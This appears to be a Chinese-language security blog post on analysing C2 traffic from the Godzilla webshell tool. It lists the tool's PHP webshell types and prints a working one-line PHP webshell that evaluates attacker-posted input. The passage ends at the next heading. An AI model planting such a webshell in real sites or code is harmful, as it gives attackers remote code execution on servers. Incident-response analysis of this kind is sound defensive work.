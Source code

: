```yaml
---
title: C2 流量分析 - Godzillav
published: 2025-03-09 16:49:16
tags: [应急响应]
category: 安全
draft: false
---
```


# C2 流量分析 - Godzillav

> https://github.com/BeichenDream/Godzilla | Godzilla 版本 4.0.1
> 

> https://feifeitan.cn/index.php/archives/280/
> 

## PHP

哥斯拉有三种生成PHP webshell的类型

![image.png](image%2045.png)

### PHP_EVAL_XOR_BASE64

生成的是很简单的`webshell`

```php
<?php
eval($_POST["pass"]);
```

### PHP_XOR_BASE64
